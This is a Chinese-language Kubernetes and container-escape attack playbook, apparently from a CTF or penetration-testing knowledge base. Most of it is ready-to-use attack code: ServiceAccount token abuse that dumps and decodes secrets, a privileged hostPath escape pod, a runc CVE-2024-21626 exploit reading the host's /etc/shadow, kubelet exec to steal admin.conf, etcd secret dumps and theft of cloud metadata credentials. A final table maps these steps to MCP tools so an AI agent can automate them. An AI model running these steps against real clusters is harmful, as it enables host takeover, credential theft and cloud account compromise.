

# Kubernetes & 容器逃逸

## 0. Pod 内入口信号与路线图

拿到一个容器内 RCE 后，先判断自己在哪一层：普通容器、Pod、Node、还是云角色。不要只试一个逃逸 payload；K8s 题通常有多条等价路径。

| 信号 | 立即动作 | 命中标志 | 下一跳 |
|---|---|---|---|
| `/var/run/secrets/kubernetes.io/serviceaccount/token` 存在 | SelfSubjectAccessReview + list pods/secrets | token 能访问 API | RBAC 分叉 |
| `KUBERNETES_SERVICE_HOST` 环境变量 | 访问 `https://kubernetes.default.svc` | API 返回 401/403/200 | token / anonymous oracle |
| `/var/run/docker.sock` 或 `/run/containerd/containerd.sock` | socket probe | 能 list/create container | runtime escape |
| `privileged=true`、`hostPID`、`hostNetwork` | 查 `/proc/1/root`, `nsenter` | 看到宿主机进程/文件 | host escape |
| node IP:10250 可达 | kubelet `/pods`, `/run` | 可枚举/执行 pod | kubelet chain |
| 2379/2380 可达 | etcd keys probe | `/registry/secrets` 可读 | cluster data |
| metadata 可达 | `169.254.169.254` / cloud metadata | role/token 返回 | cloud IAM |



### 0.1 容器基线采集脚本

```python
# k8s_pod_baseline.py — Pod 内第一轮打点
import json
import os
import pathlib
import socket

PATHS = [
    "/var/run/secrets/kubernetes.io/serviceaccount/token",
    "/var/run/secrets/kubernetes.io/serviceaccount/namespace",
    "/run/secrets/kubernetes.io/serviceaccount/token",
    "/var/run/docker.sock",
    "/run/containerd/containerd.sock",
    "/proc/1/cgroup",
    "/proc/1/root",
]

def tcp_open(host, port, timeout=1.5):
    try:
        with socket.create_connection((host, port), timeout=timeout):
            return True
    except OSError:
        return False

def baseline():
    env = {k: v for k, v in os.environ.items()
           if k.startswith(("KUBERNETES_", "AWS_", "GOOGLE_", "AZURE_"))}
    paths = {p: pathlib.Path(p).exists() for p in PATHS}
    hosts = {
        "kubernetes.default.svc:443": tcp_open("kubernetes.default.svc", 443),
        "metadata:80": tcp_open("169.254.169.254", 80),
    }
    print(json.dumps({"env": env, "paths": paths, "tcp": hosts}, ensure_ascii=False, indent=2))

if __name__ == "__main__":
    baseline()
```

## Service Account Token 劫持

```python
# 从 Pod 内读取 SA token → 操作 K8s API
import requests, os

def exploit_sa_token():
    """Pod 内提取并滥用 ServiceAccount token"""
    TOKEN = open("/var/run/secrets/kubernetes.io/serviceaccount/token").read()
    CA = "/var/run/secrets/kubernetes.io/serviceaccount/ca.crt"
    API = "https://kubernetes.default.svc"

    # Step 1: 枚举权限
    r = requests.get(f"{API}/apis/authorization.k8s.io/v1/selfsubjectaccessreviews",
        verify=CA, headers={"Authorization": f"Bearer {TOKEN}"})
    print(f"Auth: {r.status_code}")

    # Step 2: List Pods (如果 RBAC 允许)
    r = requests.get(f"{API}/api/v1/namespaces/default/pods",
        verify=CA, headers={"Authorization": f"Bearer {TOKEN}"})
    for pod in r.json().get("items", []):
        print(f"  Pod: {pod['metadata']['name']}")

    # Step 3: 读 secrets (如果 RBAC 允许)
    r = requests.get(f"{API}/api/v1/namespaces/default/secrets",
        verify=CA, headers={"Authorization": f"Bearer {TOKEN}"})
    for s in r.json().get("items", []):
        print(f"  Secret: {s['metadata']['name']}")
        for k, v in s.get("data", {}).items():
            import base64
            decoded = base64.b64decode(v).decode()
            if len(decoded) < 200:
                print(f"    {k}: {decoded}")

    return TOKEN

# 常见权限: pods:list, pods:exec, pods:create, secrets:get, deployments:create
```

### RBAC 判定矩阵

| 权限 | 直接动作 | 高价值后续 |
|---|---|---|
| `get/list secrets` | dump namespace secrets | DB 密码、cloud key、flag |
| `create pods` | 创建 privileged/hostPath pod | host filesystem |
| `pods/exec` | 进入高权限 workload | 读其他 SA token |
| `patch deployments` | 注入 sidecar/command/env | 持久执行 |
| `create token` | 给任意 SA mint token | 横向到高权限 SA |

```python
# k8s_rbac_oracle.py — SelfSubjectAccessReview 批量权限 oracle
import json
import requests

def review(api, token, ca, namespace="default"):
    headers = {"Authorization": f"Bearer {token}", "Content-Type": "application/json"}
    checks = [
        ("", "pods", "list"), ("", "pods", "create"), ("", "pods/exec", "create"),
        ("", "secrets", "list"), ("apps", "deployments", "patch"),
        ("authentication.k8s.io", "serviceaccounts/token", "create"),
    ]
    for group, resource, verb in checks:
        body = {"apiVersion": "authorization.k8s.io/v1", "kind": "SelfSubjectAccessReview",
                "spec": {"resourceAttributes": {"namespace": namespace, "group": group,
                "resource": resource, "verb": verb}}}
        r = requests.post(f"{api}/apis/authorization.k8s.io/v1/selfsubjectaccessreviews",
                          headers=headers, json=body, verify=ca, timeout=8)
        status = r.json().get("status", {})
        print(json.dumps({"verb": verb, "resource": resource, "allowed": status.get("allowed"),
                          "reason": status.get("reason", "")}, ensure_ascii=False))
```

## RBAC → Privileged Pod 逃逸

```python
# 如果有 pods:create → 创建 privileged pod 挂载 hostPath
PRIVILEGED_POD = {
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {"name": "escape-pod"},
    "spec": {
        "containers": [{
            "name": "escape",
            "image": "alpine",
            "command": ["/bin/sh", "-c", "nsenter -t 1 -m -u -i -n -- /bin/sh -c 'echo pwned > /tmp/escape_proof'"],
            "securityContext": {"privileged": True},
            "volumeMounts": [{"name": "host", "mountPath": "/host"}]
        }],
        "volumes": [{"name": "host", "hostPath": {"path": "/"}}],
        "restartPolicy": "Never"
    }
}

def create_escape_pod(api, token, ca):
    r = requests.post(f"{api}/api/v1/namespaces/default/pods",
        verify=ca, headers={
            "Authorization": f"Bearer {token}",
            "Content-Type": "application/json"
        }, json=PRIVILEGED_POD)
    return r.status_code == 201
```

## runc 逃逸 (CVE-2024-21626)

```python
# CVE-2024-21626: runc 未正确关闭内部 fd
# → /proc/self/fd/ 可访问 host 文件系统
# 从容器内:
def exploit_runc_fd_leak():
    """容器内 runc fd leak 逃逸"""
    import os

    # Step 1: 列出 /proc/self/fd
    for fd in os.listdir("/proc/self/fd/"):
        try:
            target = os.readlink(f"/proc/self/fd/{fd}")
            if target.startswith("/") and not target.startswith("/proc"):
                print(f"[!] Host fd: {fd} → {target}")
                # Step 2: chdir 到 host 路径
                os.chdir(f"/proc/self/fd/{fd}")
                # Step 3: 现在是 host 文件系统
                with open("/etc/shadow", "r") as f:
                    print(f.read()[:100])  # 宿主机的 shadow!
        except: pass
```

## kubelet API 直接访问

```bash
# kubelet 监听 10250 (无认证或弱认证)
# 从 Pod 内打到 node 的 kubelet:

# 枚举 pods
curl -k https://NODE_IP:10250/pods

# 在任意 pod 内执行命令
curl -k https://NODE_IP:10250/run/default/EXISTING_POD/CONTAINER \
  -d "cmd=cat /etc/kubernetes/admin.conf"

# 拿到 admin.conf → 完整集群控制
```

### kubelet / etcd / metadata 三向分叉

| 入口 | 打点 | 成功样本 | 失败样本 |
|---|---|---|---|
| kubelet 10250 | `/pods`, `/runningpods`, `/run/...` | pod JSON、exec 输出、admin.conf | TLS/401/403 |
| kubelet 10255 | `/pods` | anonymous pod list | 连接失败 |
| etcd 2379 | `/version`, key prefix | `/registry/secrets` keys | mTLS required |
| metadata | IMDSv2 token / role list | role credential JSON | hop-limit 或 blocked |

```bash
# kubelet quick oracle
for p in /pods /runningpods /metrics; do
  curl -sk "https://NODE_IP:10250$p" | head -c 200
done

# metadata quick oracle
TOKEN=$(curl -sS -m 2 -X PUT http://169.254.169.254/latest/api/token \
  -H 'X-aws-ec2-metadata-token-ttl-seconds: 60')
curl -sS -m 2 -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

## etcd 直接访问 (端口 2379)

```bash
# 如果 etcd 可从 Pod 内访问 (网络策略缺失)
etcdctl --endpoints=https://ETCD_IP:2379 \
  --cert="" --key="" --cacert="" \
  get /registry/secrets --prefix --keys-only

# etcd 存所有 K8s 对象: secrets, configmaps, service accounts
# 读 etcd = 完整集群数据
```

## 攻击链

```
Pod 内 RCE → SA token 读取 → RBAC 枚举 → privileged pod 创建 → hostPath 挂载 → 宿主机 RCE
Pod 内 RCE → kubelet API (10250) → 在已有 pod 执行命令 → 窃取其他 SA token
Pod 内 RCE → etcd (2379) → 读取 secrets → DB 密码/API key
Pod 内 RCE → runc CVE-2024-21626 → fd leak → host 文件系统读写 → 容器逃逸
Node 访问 → cloud metadata (169.254.169.254) → IAM role → 云账户接管
```

## Evidence

- `pod_baseline.json`: env、mount、socket、cap、cgroup、namespace、metadata 连通性。
- `rbac_oracle.jsonl`: verb/resource/namespace、allowed、reason、HTTP status。
- `kubelet_probe.json`: node IP、path、status、pod list/exec 输出摘要。
- `etcd_keys.txt`: endpoint、prefix、keys-only 输出、证书/匿名访问状态。
- `host_escape_proof.txt`: hostPath 路径、host `/etc/hostname`、`/proc/1/root`、写入证明。
- `cloud_role.json`: metadata role、`sts get-caller-identity`、可访问云资源列表。
- 成功样本: host 文件可读写、admin kubeconfig、高权 SA token、cloud role、DB secret 或 flag。
- 失败样本: RBAC denied、kubelet 401/403、etcd mTLS、metadata blocked、privileged admission 拒绝。

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| K8s/容器端点探测 | `http_probe` | HTTP GET 探测 Kubernetes API/容器入口 |
| 知识检索 | `kb_router` | 按 K8s/容器攻击信号搜索知识库 |
| RBAC 路由 | `kb_router` | 按 pods/exec、pods/create、secrets:get 信号跳转专项文档 |
